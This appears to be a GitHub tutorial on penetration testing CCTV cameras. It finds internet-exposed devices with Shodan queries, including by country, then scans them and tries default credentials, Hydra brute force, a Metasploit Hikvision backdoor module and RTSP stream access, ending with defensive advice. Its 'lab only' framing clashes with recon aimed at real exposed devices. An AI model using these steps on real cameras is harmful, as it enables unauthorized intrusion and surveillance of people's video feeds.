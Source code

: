 # 🎯 Project: Penetration Testing Exposed CCTV Devices via Shodan (Educational Purpose)

---

## 🧱 Phase 1: Planning and Scoping

### ✅ Objective
- Identify **internet-exposed CCTV systems** using Shodan.
- Analyze them for **weak services, open ports**, or **default credentials**.
- Attempt **non-invasive testing** or **simulation attacks** in a **lab environment**.

### ✅ Tools Needed
| Tool       | Purpose                        |
|------------|--------------------------------|
| Shodan     | External reconnaissance        |
| Nmap       | Port scanning + service detection |
| WhatWeb    | Web server fingerprinting      |
| Hydra/Medusa | Brute-force testing (if allowed) |
| CVE Search | Vulnerability lookup           |
| Metasploit | Exploitation framework         |
| Wireshark  | Packet analysis (optional)     |

---

## 🌐 Phase 2: Reconnaissance with Shodan

### 🔍 Step 1: Search for exposed CCTV devices

```text
port:554 has_screenshot:true
```
(Finds live IP camera streams)

Other useful queries:
```text
product:"GoAhead-Webs"
title:"DVR Login"
hikvision
dahua
```

### 🔧 Step 2: Filter by country or network
Example (Nigeria):
```text
port:554 country:"NG"
```

---

## 🔎 Phase 3: Vulnerability Enumeration

### 🔍 Step 1: Choose a target IP (for your lab or legally-owned test environment)

Let’s say:
```text
IP = 192.168.1.200
```

### 🔍 Step 2: Scan it with Nmap

```bash
nmap -sV -A -p- 192.168.1.200
```

**What you're looking for:**
- Open ports like **80 (HTTP)**, **554 (RTSP)**, **23 (Telnet)**, **22 (SSH)**, **37777** (Dahua), etc.
- Service banners: product name, version

### 🔍 Step 3: Use WhatWeb or Wappalyzer for fingerprinting

```bash
whatweb http://192.168.1.200
```

---

## 🔐 Phase 4: Testing for Vulnerabilities

### 📂 Step 1: Search for CVEs

Use the product/version from Nmap:
```bash
searchsploit hikvision
```
or search online:
- [https://cve.mitre.org](https://cve.mitre.org)
- [https://www.exploit-db.com](https://www.exploit-db.com)

Example:
- **CVE-2017-7921** — Hikvision RCE via backdoor credentials

### 👨‍💻 Step 2: Simulate login attempt (if you have permission)

```bash
curl -u admin:12345 http://192.168.1.200
```

Or:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.200 http-get
```

---

## 💣 Phase 5: Exploitation (Local or Lab Only)

### Option A: Use Metasploit (if exploit exists)
```bash
msfconsole
use exploit/linux/http/hikvision_backdoor
set RHOSTS 192.168.1.200
set RPORT 80
run
```

### Option B: RTSP Stream Access
Use VLC or ffplay to view unsecured camera feed:
```bash
ffplay rtsp://192.168.1.200:554
```
If it's open, video stream will load.

---

## 🧪 Phase 6: Post-Exploitation (Optional, Lab Only)

If you successfully gain access:
- Dump config files
- Check for user accounts
- Identify outbound traffic
- Assess firmware versions

But **never** tamper or exfiltrate data from real devices.

---

## 📋 Phase 7: Documentation

Create a report including:
- Target IP (in lab)
- Tools used
- Findings (open ports, vulnerable services)
- Exploitability assessment
- Risk level
- Remediation suggestions

---

## 🔒 Phase 8: Defense Recommendations

- Close unused ports (especially 23, 554, 7547)
- Change default credentials
- Use strong, unique passwords
- Apply firmware updates
- Disable UPnP on routers
- Block internet access to DVR/CCTV where possible

---

## 💡 BONUS: Simulate Devices for Testing

You can simulate targets using:

- **Damn Vulnerable DVRs** (search for online lab VMs)
- **Metasploitable**
- **Docker containers** like vulnerable GoAhead servers
